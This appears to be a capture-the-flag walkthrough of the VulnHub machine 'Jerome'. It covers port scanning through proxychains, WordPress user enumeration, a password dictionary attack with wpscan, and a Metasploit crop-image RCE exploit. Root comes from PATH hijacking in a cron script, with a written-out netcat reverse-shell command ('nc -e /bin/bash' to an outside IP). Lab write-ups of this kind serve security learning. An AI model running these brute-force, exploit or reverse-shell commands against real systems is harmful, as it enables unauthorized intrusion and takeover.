<h1 align="center" style="font-size:30px;">
  <br>
  <a href="https://www.vulnhub.com/entry/sp-jerome-v101,303/">Jerome </a>
  <br>
</h1>

<h4 align="center"> Author: <a href="https://dsolstad.com/"> Daniel</a></h4>

## Nmap



This is an insteresting machine. If we run the nmap scan on the IP we get only port `8080` open And if we visit that we'll get an error.



To fix this we can use `proxychains` tool. Add the following line in the end of the proxychain config file i.e `/etc/proxychains.conf`

```
http MACHINE-IP 8080
```

And then rerun the nmap scan with the following command

```bash
proxychains -q nmap -sT -sV -p- 127.0.0.1
```



Now we can see that in reality there are two more port running the HTTP service.

***

## HTTP

I got nothing on port `80`



And on port `1337`, I got nothing :)



So I decided to run `dirsearch` on port `1337` because `80` said to `Move along`



We can see there's a wordpress website running.


Let's run `wpscan` and see if we can find anything.

```bash
➜ wpscan --url http://127.0.0.1:1337/wordpress/ --wp-content-dir wp-content/ -e u --no-banner --proxy http://192.168.1.115:8080
```





Okay so there are two user `root` and `jerome`. I ran dictionary attack on `jerome` account and found the password in only 26s

```bash
➜ wpscan --url http://127.0.0.1:1337/wordpress/ --wp-content-dir wp-content/ --proxy http://192.168.1.115:8080 --no-banner -U jerome -P passwords.txt
```



`jerome: jerome`

I logged into wordpress dashboard but since there was no `plugin` or `theme` editor I knew I can't get reverse shell from this.

So I decided to have a look at all the vulnerabilities we found from `wpscan`. Since we have authentication we can try to use them. The Only one that looked interesting was `2019-8942` the `Authenticated Code Execution`. I ran metasploit to exploit that .

```bash
use multi/http/wp_crop_rce
```



I ran the exploit with those options and got the reverse shell



From there I got to `jerome` home directory and found the user flag



`b0ed001c825`

***

## Privilege escalation

Even before I could run the `enumeration` script I found that jerome is a `sudoer` because there was a `.sudo_as_admin_successful` in his home directory.



I spwan the TTY shell using

```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

and tried to run the sudo command but `jerome: jerome` didn't work.

So I just ran the enumeration script and in cron I found a script





This script run with `root` privileges and we can exploit that easily.

__How?__

Well if you take a good look to the script you'll see there are mutiple commands used like `cd` or `ls` without the exact path. We can make a file of those(`cd` or `ls`) name and put it in `/home/jerome` and wait for cron to execute it.

To do so, run the following commands:

```bash
$ echo "nc -e /bin/bash 192.168.1.107 5855" >> ls
$ chmod +x ls
```

And on your system run the listener i.e `nc -nlvp 5855`



And then wait for the cron to run the file and give you a root shell.





***

This was an easy machine but I got learn about the proxychains which is a new thing for me.

Thanks to [@dsolstad](https://twitter.com/dsolstad) for making this machine.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/mzfr) for more “Writeups”.
